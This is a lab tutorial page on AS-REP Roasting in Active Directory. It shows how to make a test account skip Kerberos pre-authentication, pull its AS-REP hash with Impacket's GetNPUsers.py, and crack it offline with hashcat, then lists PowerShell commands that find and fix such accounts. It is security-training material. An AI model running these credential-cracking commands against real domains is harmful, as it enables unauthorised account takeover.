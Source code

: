 # AS-REP Roasting

## Configuring

1. Open the "Active Directory Users and Computers" administration tool on `DC02`.

![](<../../../.gitbook/assets/image (6).png>)

2\. Click on "View" and enable "Avanced Features"

![](<../../../.gitbook/assets/image (4) (1) (1) (1).png>)

3\. Open "Employees", right click the user `Richard` and click on "Properties"

![](<../../../.gitbook/assets/image (64) (1) (1) (1) (1).png>)

4\. Open "Account" and scroll to the bottom in "Account options", then select "Do not require kerberos preauthentication".

![](<../../../.gitbook/assets/image (39) (1) (1).png>)

5\. Right click on `Richard` and select "Reset Password". Uncheck "User must change password at next logon" and fill in the password `Sample123`. Click on "OK"

![](<../../../.gitbook/assets/image (65) (1) (1).png>)

## Attacking

### How it works

When pre-authentication is not required, an attack can directly send a request for authentication. The KDC will return an encrypted TGT and the attacker can brute-force it offline.

### Tools

* [Impacket GetNPUsers.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py)

### Executing the attack

1. Make sure impacket is installed and run the GetNPUsers.py tool with the users we enumerated earlier. The tool will check if any of the enumerated users doesn't require pre-authentication and will request a ticket which we can crack offline.

```
GetNPUsers.py amsterdam/ -usersfile users.txt -format hashcat -outputfile asreproastinng
```

![](<../../../.gitbook/assets/image (7).png>)

2\. The tool doesn't say anything about users that don't require pre-authentication. Check if the outputfile exists and cat it:

```
cat asreproasting
```

![](<../../../.gitbook/assets/image (43) (1) (1).png>)

3\. The user richard doesn't require pre-authentication and we have an hash from the TGT. Lets crack it with hashcat and [this](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/2020-200\_most\_used\_passwords.txt) wordlist. The hashcat parameters are:

* Crackingmode: `-a 0` for using a wordlist
* Hashmode: `-m 18200` for Kerberos 5, etype 23, AS-REP
* List with hashes: `asreproasting`
* Password list: `2020-200_most_used_passwords.txt`

```
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/2020-200_most_used_passwords.txt
hashcat -a 0 -m 18200 asreproasting 2020-200_most_used_passwords.txt
```

![](<../../../.gitbook/assets/image (10).png>)

4\. We succesfully cracked the password. The password for `Richard` is `Sample123`.

## Defending

### Recommendations

* Periodically check for users that don't require pre-authentication and remove the attribute.

Check for users with the attribute:

```
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true} | Select-Object samAccountName
```

Remove the attribute for a single user:

```
Set-ADAccountControl -DoesNotRequirePreAuth $false -Identity <USER>
```

Check for users with the attribute and remove it:

```
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true} | Set-ADAccountControl -DoesNotRequirePreAuth $false
```

### Detection



## References

{% embed url="https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py" %}
